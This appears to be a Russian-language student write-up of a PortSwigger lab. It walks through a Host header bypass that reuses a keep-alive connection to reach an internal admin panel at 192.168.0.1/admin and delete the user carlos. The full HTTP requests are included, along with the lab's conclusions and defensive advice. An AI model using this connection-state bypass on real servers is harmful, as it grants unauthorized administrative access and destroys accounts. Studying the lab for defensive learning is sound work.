



лаба https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack


задание - попасть в админку по 192.168.0.1/admin
и удалить карлоса

--------


вот базовый оригинал запрос к главной стр
```http
GET / HTTP/1.1
Host: 0a46006f03446a8a8513275e0024008c.h1-web-security-academy.net
Cookie: session=cJ58jhEWpi70BqgUsirV5QSYFC9Qn8bT; _lab=46%7cMCwCFBCj%2f%2bBPJHmQmt4fyhfA2uIGzkGRAhQaeL9m219E8VB5U0c0Uh8IFrwUzjkBZNAe%2bRBWlxPZbLvvuHm0eJuCM1DVH2wAVNPtpvsuyDw97bBBbagpAxN%2ftqMAykESAGQVkuBH%2ftGjXddckIToOZ0vegnNJkSBzSqurFtFTxiqd2FoViw%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a46006f03446a8a8513275e0024008c.h1-web-security-academy.net/product?productId=4
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

-----------

отправил это
```http
GET / HTTP/1.1
Host: 192.168.0.1
..
```

и вот такой интеререный ответ
```http
HTTP/1.1 301 Moved Permanently
Location: https://0a46006f03446a8a8513275e0024008c.h1-web-security-academy.net/
Connection: close
Keep-Alive: timeout=10
Content-Length: 0


```

пробовал много разных вариантов комбинаций, но как только какое-то отклонение от ориганала 

```http
GET /admin HTTP/1.1
Host: 192.168.0.1/admin
```

и постоянно ответ с перенаправлением 
```http
HTTP/1.1 301 Moved Permanently
Location: https://0a46006f03446a8a8513275e0024008c.h1-web-security-academy.net/
```


-------

короче: я подсмотрел решение, так как довольно долго сидел над этой лабой и тупил

-------

смысл вот в чем должен быть=
сервер (front-end) проверяет Host header только для первого запроса на соединении. Все последующие запросы по тому же соединению считаются принадлежащими тому же хосту и не проходят повторную валидацию

-----

поэтому - я создаю (согласно офиц решению) 
два запроса и обьединяю их в группу вкладок в репитере

первый
```http
GET / HTTP/1.1
Host: 0a46006f03446a8a8513275e0024008c.h1-web-security-academy.net
Cookie: session=cJ58jhEWpi70BqgUsirV5QSYFC9Qn8bT; _lab=46%7cMCwCFBCj%2f%2bBPJHmQmt4fyhfA2uIGzkGRAhQaeL9m219E8VB5U0c0Uh8IFrwUzjkBZNAe%2bRBWlxPZbLvvuHm0eJuCM1DVH2wAVNPtpvsuyDw97bBBbagpAxN%2ftqMAykESAGQVkuBH%2ftGjXddckIToOZ0vegnNJkSBzSqurFtFTxiqd2FoViw%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
...
..


```

второй 

```http
GET /admin HTTP/1.1
Host: 192.168.0.1
Cookie: session=cJ58jhEWpi70BqgUsirV5QSYFC9Qn8bT; _lab=46%7cMCwCFBCj%2f%2bBPJHmQmt4fyhfA2uIGzkGRAhQaeL9m219E8VB5U0c0Uh8IFrwUzjkBZNAe%2bRBWlxPZbLvvuHm0eJuCM1DVH2wAVNPtpvsuyDw97bBBbagpAxN%2ftqMAykESAGQVkuBH%2ftGjXddckIToOZ0vegnNJkSBzSqurFtFTxiqd2FoViw%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
.....
..
Connection: keep-alive


```

и отправлю их как одно соединение
SINGLE CONNECTION

вкладка с админкой - открывает админку!!




и здесь есть форма+ путь для делита юзеров
```html
                   </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="5b2UdznIe698QHZex1TvQWLrYqOQqkNJ">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
```


вот  вкладка кооторая первая - просто глав стр




-------

отправляю запрос 
```http
GET /admin/delete?csrf=5b2UdznIe698QHZex1TvQWLrYqOQqkNJ&username=carlos HTTP/1.1
Host: 192.168.0.1
```




ответ 302 - карлос удален -  лаба решена 

----------
#### выводы

фронт сервер проверяет Host header только для первого запроса на соединении. Все последующие запросы по тому же соединению принимаются без повторной валидации

------
#### как прошла атака

1. открыто соединение первым запросом с легитимным Host
   
2. по этому же соединению отправлен второй запрос с Host: 192.168.0.1/admin
   
3. валидация не сработала, получен доступ к админке
   
4. удалил карлоса по тому же принципу
   
--------
#### защита

каждый запрос на соединении должен проходить полную валидацию независимо от предыдущих запросов. Не делать предположений о хосте на основе первого запроса в соединении

не использовать состояние соединения (keep-alive) как фактор доверия для принятия решений о безопасности

валидировать Host header для каждого запроса индивидуально, без кэширования результата проверки на всё соединение

-------